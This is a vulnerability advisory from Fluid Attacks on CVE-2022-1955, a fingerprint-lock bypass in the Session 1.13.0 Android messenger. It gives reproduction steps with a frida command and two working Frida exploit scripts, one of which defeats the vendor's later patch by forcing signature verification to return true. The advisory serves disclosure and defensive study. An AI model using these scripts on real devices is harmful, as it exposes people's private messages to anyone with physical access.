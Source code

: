 ```yaml
---
slug: advisories/tempest/
title: Session 1.13.0 - Improper Access Control (Fingerprint)
authors: Carlos Bello
writer: cbello
codename: tempest
product: Session 1.13.0
date: 2022-06-28 08:00 COT
cveid: CVE-2022-1955
severity: 6.3
description: Session 1.13.0  -  Improper Access Control (Fingerprint)
keywords: Fluid Attacks, Security, Vulnerabilities, Session, Oxen
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Session 1.13.0 - Improper Access Control (Fingerprint) |
| **Code name**         | [Tempest](https://en.wikipedia.org/wiki/Joey_Tempest)  |
| **Product**           | Session                                                |
| **Affected versions** | Version 1.13.0                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-06-28                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | No                                                                                                     |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 6.3                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1955](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1955)                          |

## Description

An attacker with physical access to the victim's device can
bypass the application's fingerprint lock to access user data.
This is possible due to lack of adequate security controls to
prevent dynamic code manipulation.

In android application fingerprint implementations, the
**onAuthenticationSucceded** method is triggered when the
system successfully authenticates a user. Most biometric
authentication implementations rely on this method being
called, without worrying about the CryptoObject. The
application logic responsible for unlocking the application
is usually included in this callback method. This approach
is trivially exploited by connecting to the application
process and calling the AuthenticationSucceded method
directly, as a result, the application can be unlocked
without providing valid biometric data. (In short,
fingerprint validation depends on an event and not on
an actual security validation.)

Another common case, occurs when some developers use
CryptoObject but do not encrypt/decrypt data that is
crucial for the application to function properly.
Therefore, we could skip the authentication step
altogether and proceed to use the application.

To solve this there is no single answer, however a good
approach is to use a fingerprint protected key store key
that will be used to decrypt a symmetric key. This symmetric
key must be used to decrypt the application storage.

## Proof of Concept

Attached below is a proof-of-concept video showing the
exploitation of the vulnerability.

https://vimeo.com/724828094

### Steps to reproduce

1. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

2. Now just run this command to hook into the fingerprint listener,
   so that you can dynamically rewrite its implementation to bypass
   the application's protection.

   ```bash
   frida -U 'Session' -l exploit.js --no-pause
   ```

3. Now on your device press the 'recent' button, commonly represented
   by a square. This button opens the recent apps view so that you can
   switch from one open app to another.

4. Log back into Session.

5. As you had left the exploit running with frida, you will notice that
   in less than a second you will enter the application, without even
   having set a valid fingerprint.

## Exploit

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(crypto, null, 0);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use('android.hardware.fingerprint.FingerprintManager$AuthenticationResult');
    const FingerprintManager  = Java.use('android.hardware.fingerprint.FingerprintManager');
    const CryptoObject = Java.use('android.hardware.fingerprint.FingerprintManager$CryptoObject');

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload('android.hardware.fingerprint.FingerprintManager$CryptoObject', 'android.os.CancellationSignal', 'int', 'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback', 'android.os.Handler');;

    fingerprintManager_authenticate.implementation = (crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Bypass of the patch implemented at Session 1.13.4

After reporting the security flaw, the Session team implemented a [patch](https://github.com/oxen-io/session-android/commit/db92034a8a85ac33d42235e87f6fce9bc9738475).
However, I managed to bypass the patch using the following exploit:

```js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(crypto, null, 0);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const KeyPairGenerator = Java.use('java.security.KeyPairGenerator');
    const Signature = Java.use('java.security.Signature');
    const BiometricSecretProvider = Java.use('org.thoughtcrime.securesms.crypto.BiometricSecretProvider');
    const AuthenticationResult = Java.use('android.hardware.fingerprint.FingerprintManager$AuthenticationResult');
    const FingerprintManager  = Java.use('android.hardware.fingerprint.FingerprintManager');
    const CryptoObject = Java.use('android.hardware.fingerprint.FingerprintManager$CryptoObject');

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload('android.hardware.fingerprint.FingerprintManager$CryptoObject', 'android.os.CancellationSignal', 'int', 'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback', 'android.os.Handler');

    fingerprintManager_authenticate.implementation = (crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // Create Certificate
        var keyGenerator = KeyPairGenerator.getInstance("RSA");
        keyGenerator.initialize(2048);
        var signatureKey = keyGenerator.generateKeyPair();
        var signature = Signature.getInstance("MD5withRSA");
        signature.initSign(signatureKey.getPrivate());
        var crypto = CryptoObject.$new(signature);

        // Create a valid authenticationResult
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);

        // Bypass Validations
        BiometricSecretProvider.verifySignature.implementation = (data, signedData) => {
            return true;
        }

        // Success
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

The reason the bypass succeeded is because the **onAuthenticationSucceeded**
method still depends on a boolean.

If the cryptographic verification works fine, it returns true. However,
the correct thing to do would be for it to retrieve the encryption object
from the parameter and USE this encryption object to decrypt some other
crucial data, such as the session key (by **"session key"** I don't mean the
session application's private key. I simply mean a unique identifier of
the user's session) or a secondary symmetric key that will be used to
decrypt the application data.

This is why in the description of this finding, we have cited the following:

> *some developers use CryptoObject but do not encrypt/decrypt data that
is crucial for the application to function properly. Therefore, we could
skip the authentication step altogether and proceed to use the application.*

## Mitigation

There is currently no patch available for this vulnerability.

## System Information

* Package Name: network.loki.messenger
* Application Label: Session
* Mobile app version: 1.13.0
* OS: Android 8.0 (API 26)

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page:** <https://github.com/oxen-io/session-android>

## Timeline

<time-lapse
  discovered="2022-05-26"
  contacted="2022-05-26"
  replied=""
  confirmed="2022-05-27"
  patched=""
  disclosure="2022-06-28">
</time-lapse>

